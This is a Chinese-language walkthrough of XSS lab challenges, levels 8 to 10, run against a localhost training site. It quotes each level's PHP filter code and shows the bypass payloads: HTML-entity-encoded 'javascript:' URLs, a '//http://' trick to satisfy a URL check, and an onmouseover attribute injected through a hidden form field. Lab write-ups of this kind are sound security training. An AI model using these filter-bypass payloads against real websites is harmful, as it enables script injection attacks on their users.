 新增的是双引号被过滤了，
`"> <a href=javascript:alert(1)>hack</a>`进去变成`<a hr_ef=javascr_ipt:alert(1)>hack</a>`，href可以通过大写绕过，但是javascript怎么搞

HTML 实体有两种写法，第一种是 &entity_name; 形式，比如 `$lt;` 表示小于号，"&"开头，";"结尾；第二种是 &#entity_number; 形式，其中 entity_number 是字符的实体编号，比如 `&#60;` 也能表示小于号。使用第二种方式，任何字符（包括 ASCII 字符）都有其实体表示。https://mothereff.in/html-entities 可以提供转换，"&#"开头，";"结尾

突然想起来这个是要加入到链接的，HREF不用写的
`javascr&#x69;pt:alert(1)`

**level9**  
尝试上一题的payload，回显`<a href="您的链接不合法？有没有！">`，看看源码

```
$str2=str_replace("script","scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
$str7=str_replace('"','&quot',$str6);

false===strpos($str7,'http://')
```

与上一题不同的就是添加了对http的验证,我们在后面加上注释，写上http://就行了
`javascr&#x69;pt:alert(1)//http://`

### level10~16(字段注入)

**level10**  
尝试老payload，发现无特别回显，看看源码

```
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str11 = $_GET["t_sort"];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);

<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.$str33.'" type="hidden">
</form>
```

尝试所有内容输入`http://localhost:51142/level10.php?keyword=test?t_link=tlink&t_history=thistory&t_sort=tsort` ，得到
```
<input name="t_link"  value="" type="hidden">
<input name="t_history"  value="" type="hidden">
<input name="t_sort"  value="tsort" type="hidden">
```

`t_sort`的信息并没有过滤，可以尝试从这里注入，从源码得知`<>`被过滤掉，尝试类似`" onmouseover=javascript:alert(1) "`的payload
`http://localhost:51142/level10.php?keyword=test&t_sort=" onmouseover=javascript:alert(1) "`
